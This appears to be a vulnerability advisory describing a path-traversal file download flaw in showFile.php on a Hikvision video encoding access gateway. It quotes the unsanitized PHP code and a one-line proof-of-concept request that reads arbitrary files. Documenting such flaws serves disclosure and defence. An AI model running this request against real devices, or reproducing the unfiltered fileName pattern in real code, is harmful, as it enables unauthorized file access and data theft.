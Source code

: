 # HIKVISION Video encoding device access gateway showFile.php any file download vulnerability

## Vulnerability Description

There is a vulnerability to download any file in the fileName parameter fileName on the Hikvision video access gateway system.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">HIKVISION Video Encoding Device Access Gateway</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630063019704-4b10f55b-d725-4866-b5aa-e73d638b2f27.png)

The vulnerable file is `showFile.php`, where `parameter fileName` does not filter dangerous characters, resulting in file traversal download



```php
<?php
					$file_name = $_GET['fileName'];
					$file_path = '../../../log/'.$file_name;
					$fp = fopen($file_path, "r");
					while($line = fgets($fp)){
						$line = nl2br(htmlentities($line, ENT_COMPAT, "utf-8"));
						echo '<span style="font-size:16px">'.$line.'</span>';
					}
					fclose($fp);
?>
```



Verify POC

```python
/serverLog/showFile.php?fileName=../web/html/main.php
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630063348342-40566a14-18d5-467b-b259-ad3c6888c456.png)